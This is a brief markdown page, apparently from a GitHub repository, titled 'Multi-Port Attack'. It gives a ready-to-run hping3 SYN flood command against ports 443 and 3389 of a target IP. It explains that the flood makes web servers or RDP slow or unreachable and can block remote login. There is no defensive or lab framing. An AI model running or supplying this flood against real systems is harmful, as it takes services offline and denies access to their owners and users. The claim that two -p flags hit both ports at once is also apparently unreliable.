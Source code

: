 
# Multi-Port Attack

## Effects:
- If RDP or a Web Server is enabled, they may become slow or inaccessible.
- Remote login may fail if RDP is overwhelmed.

## Command:
```bash
sudo hping3 -S --flood -p 443 -p 3389 <Target IP>
```

## Explanation:

- `-p 443` → Attacks HTTPS (Web Traffic) port.
- `-p 3389` → Attacks RDP (Remote Desktop Protocol) port.
